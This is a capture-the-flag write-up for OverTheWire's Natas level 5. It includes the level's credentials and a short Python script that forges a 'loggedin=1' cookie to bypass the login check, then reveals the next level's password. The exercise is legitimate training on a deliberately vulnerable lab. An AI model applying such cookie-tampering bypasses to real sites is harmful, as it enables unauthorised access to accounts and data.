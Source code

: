 # Level 5

URL : http://natas5.natas.labs.overthewire.org/

#### Creds for level5

**natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**

## Solution

Vsiting natas5 homepage we get :   
Access disallowed. You are not logged in.

page source has nothing interesting, but when inspecting server response headers we see : **`Set-Cookie: loggedin=0`**.  

so, will just set the loggedin cookie to 1 and request the page

```python
import requests
# set loggedin cookie
cookie = {"loggedin": "1"}
# request page
res = requests.get("http://natas5.natas.labs.overthewire.org/", cookies=cookie, auth=('natas5', 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'))
# print the response body
print(res.text)
```

and here you go:
**Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**
